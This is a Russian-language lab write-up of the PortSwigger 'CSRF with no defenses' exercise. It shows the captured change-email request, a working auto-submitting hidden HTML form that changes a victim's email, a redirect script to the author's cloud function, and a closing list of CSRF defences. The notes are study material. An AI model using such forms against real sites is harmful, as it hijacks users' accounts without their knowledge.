


лаба https://portswigger.net/web-security/csrf/lab-no-defenses
#### CSRF без защиты

задание:
нужно создать html эксплойт который сменит емайл при переходе на мой сайт с этим вредоносным html

да бы не тупить долго - есть  https://csrf-poc-generator.vercel.app    CSRF PoC Generator
как аналог Burp Suite Professional

-----

вот ориг запрос на смену емайл
```http
POST /my-account/change-email HTTP/2
Host: 0a110042030c924e8180436b00220024.web-security-academy.net
Cookie: session=mXxmdVvhq1gDsw4pZazBXnhEaZEqMSvs
Content-Length: 20
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a110042030c924e8180436b00220024.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a110042030c924e8180436b00220024.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru
```

видно , что единственное - что нужно для смены емайл - это лишь mXxmdVvhq1gDsw4pZazBXnhEaZEqMSvs токен!

в токене зашита кука конкретного юзера - поэтому подменить куку не получится 

остается только пробовать заставить браузер жертвы выполнить сам запрос

------


иду на сайт https://csrf-poc-generator.vercel.app

и генерирую эксплойт 

подробнее про html можно здесь почитать [[HTML-база]]

ставлю емайл - какой мне нужно
и заливаю этот скрипт на свой сервер
```html
<html>
  <body>
    <form action="https://0a110042030c924e8180436b00220024.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker777@bk.ru" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```



использую облачную функцию яндекса как свой сервер и размещаю на ней свой эксплойт!


теперь я сам перешел по своей же ссылке на яндекс функцию
открылась яндекс функция и выполнила код который там лежит
а там лежал мой скрипт - тот что выше , и скрипт выполнил запрос к сайту с открытой лабой и выполнил функцию смены емайл!

можно было просто это сделать и через эксплойт сервер - лабы порт свиггер (просто залив на их сервер)
но я просто решил сделать редирект через собственный эксплойт сервер!




  вот так я пытался заставить сервер портсвиггер сходить на мою сервер-яндекс функцию, но порт свиггер тупо блокирует переходы на сторонние  серверы (как всегда)
```html
 НА МОЙ СЕРВЕР
 
<html>
    <body>
        <script>
            window.location = "https://functions.yandexcloud.net/12121212";
        </script>
    </body>
</html>

```

или можно так 
````

--------

поэтому, я просто отправил сам скрипт который меняет емайл и лаба решилась

------

# ВЫВОДЫ

сайт никак не проверял откуда пришел запрос на смену email

единственная защита была сессионная кука которая автоматически отправляется браузером на домен где она была установлена

хакер создал страницу с формой которая отправляет POST запрос на уязвимый сайт и скрипт который отправляет эту форму автоматически

жертва переходя на страницу атакера даже не видит что её браузер отправил запрос на смену email потому что форма скрытая и отправляется мгновенно

эта лаба напрямую отвечает на вопрос "для чего" вообще нужны CSRF токены
### защита  

csrf токены — генерировать уникальный токен для каждой формы и проверять на сервере  
токен должен быть сложным и привязанным к сессии конкрет юзера

samesite куки — установить атрибут lax или strict чтобы браузер не отправлял куки с кросс-сайт запросов  
с 2021 хром ставит lax по умолчанию но лучше задавать явно

проверка referer — убеждаться что запрос пришел с того же сайта  
но это ненадежно потому что referer можно подделать или заблокировать

двойная отправка — отправлять токен и в куке и в параметре и сверять их

капча — требовать подтверждение для смены email пароля или денежных переводов

post для изменений — не использовать get для действий которые меняют состояние

